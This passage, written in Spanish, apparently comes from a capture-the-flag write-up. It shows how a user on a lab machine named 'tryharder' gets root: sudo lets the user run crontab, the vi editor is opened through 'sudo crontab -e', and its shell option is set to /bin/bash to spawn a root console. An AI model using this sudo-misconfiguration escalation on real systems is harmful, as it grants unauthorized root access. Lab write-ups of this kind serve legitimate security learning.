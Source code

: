 ```bash
jeff@tryharder:~$ sudo -l
[sudo] password for jeff: 
Matching Defaults entries for jeff on tryharder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jeff may run the following commands on tryharder:
    (ALL) /usr/bin/crontab
jeff@tryharder:~$ 
```
Podemos abusar del crontab de varias maneras teniendo este privelegio.

Ejecutamos crontab de la siguiente manera.

```bash
jeff@tryharder:~$ sudo crontab -e
```
Se nos abre vi un editor de texto, aqui podemos establecer el valor de shell para que valga /bin/bash.

![](/assets/img//jeff/shell.png)

Ahora podemos llamar a shell ya que le establecimos el valor /bin/bash

![](/assets/img/jeff/priv.png)

Lo ejecutamos y nos da una consola como root.
```bash
jeff@tryharder:~$ sudo crontab -e

root@tryharder:/tmp# exit
exit

root@tryharder:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@tryharder:/tmp# 
```
Gracias por leer!
